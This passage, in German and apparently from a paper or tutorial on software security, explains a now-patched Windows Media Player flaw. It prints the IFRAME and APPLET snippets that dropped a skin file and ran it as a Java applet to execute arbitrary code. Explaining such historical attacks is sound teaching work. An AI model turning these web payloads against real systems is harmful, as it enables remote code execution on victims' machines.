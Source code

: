 Eine weitere Sicherheitslücke bestand im Programm Media Player von Microsoft. Über folgenden Code konnte ein Skin für den Player heruntergeladen werden:
\begin{quote}
"C:/Program files/Windows Media Player/Skins/SKIN.WMZ" : <IFRAME
SRC="'\textbf{wmp2.wmz}"'></IFRAME>
\end{quote}

Die Datei \textit{wmp2.wmz} konnte dabei ein Java Applet sein. Das ist ein Java Code, welcher vom Browser ausgeführt werden kann. Mit folgendem Stück Code auf einer Webseite konnte der schadhafte Datei ausgeführt werden
\begin{quote}
<APPLET \\
  CODEBASE="file://c:/" \\
  ARCHIVE="Program files/Windows Media\\
  Player/SKINS/\textbf{wmp2.wmz}"\\
  CODE="gjavacodebase.class" \\
  WIDTH=700 \\
  HEIGHT=300>\\
  <PARAM NAME="URL" VALUE="'file:///c:/test.txt" x >
</APPLET>
\end{quote}
Damit kann jeglicher Schadcode ausgeführt werden. Sprich ein Hacker kann volle Kontrolle über einen Computer erlagen.

Die gezeigten Sicherheitslücken sind mittlerweile behoben. Jedoch werden stetig neue Fehler in Programmen gefunden, welche zur ausführung von Schadcode verwendet werden kann.